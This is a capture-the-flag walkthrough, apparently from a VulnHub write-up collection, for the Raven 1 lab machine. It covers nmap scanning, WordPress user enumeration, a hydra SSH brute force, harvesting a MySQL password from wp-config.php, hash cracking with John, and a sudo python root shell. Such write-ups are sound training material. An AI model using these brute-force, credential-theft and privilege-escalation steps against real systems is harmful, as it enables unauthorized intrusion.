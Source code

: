 <h1>Raven: 1</h1>

Today we'll be looking at the raven level 1 machine on vulnhub.
You can download the machine [here](https://www.vulnhub.com/entry/raven-1,256/).

Let's scan the machine with nmap.
```┌──(root㉿kali)-[~]
└─# nmap -sS -A 172.16.243.136
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-18 15:45 EET
Nmap scan report for 172.16.243.136
Host is up (0.00019s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 2681c1f35e01ef93493d911eae8b3cfc (DSA)
|   2048 315801194da280a6b90d40981c97aa53 (RSA)
|   256 1f773119deb0e16dca77077684d3a9a0 (ECDSA)
|_  256 0e8571a8a2c308699c91c03f8418dfae (ED25519)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Raven Security
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46310/udp6  status
|   100024  1          47722/udp   status
|   100024  1          57040/tcp   status
|_  100024  1          60827/tcp6  status
MAC Address: 00:0C:29:28:78:D7 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.19 ms 172.16.243.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.98 seconds
```

Let's use dirsearch.

```dirsearch -u 172.16.243.136```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/raven1/pics/pic1.png)

We can see that the machine is running wordpress.

Let's try to enumerate usernames.

```wpscan --url http://172.16.243.136/wordpress -e u```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/raven1/pics/pic2.png)

Let's brute force the login to get the password.

I tried to brute force the wordpress login but I couldn't get the password.

So I tried to brute force ssh login.

```hydra -l michael -P /usr/share/wordlists/rockyou.txt 172.16.243.136 ssh -V -I```

We got the password for michael.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/raven1/pics/pic3.png)

Now, let's login as michael.

Now, let's begin looking for the flags.

Remember, there are four flags hidden in the machine.

I first went to /var/www/html and found the flag using grep.

```grep -r "flag"```

We got the first flag!

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/raven1/pics/pic4.png)

Then I went one step back and found the second flag in /var/www

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/raven1/pics/pic5.png)

After that I went to check the wp-config.php file.

And I found the password for the mysql.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/raven1/pics/pic6.png)

Now, let's login.

```mysql -u root -p'R@v3nSecurity'```

We got in!

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/raven1/pics/pic7.png)

Now, let's explore the databases.

```show databases;```

```use wordpress;```

```show tables;```

```select * from wp_users;```

We found the hashed password for steven.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/raven1/pics/pic8.png)

Let's crack the hash using JohnTheRipper.

```john --wordlist=/usr/share/wordlist/rockyou.txt hash.txt```

We got the password **pink84**.

I also found the third flag in the wp_posts table.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/raven1/pics/pic9.png)

Let's switch to steven

Let's run sudo -l

Great! we can run python with sudo.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/raven1/pics/pic10.png)

```sudo python -c 'import os; os.system("/bin/sh")'```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/raven1/pics/pic11.png)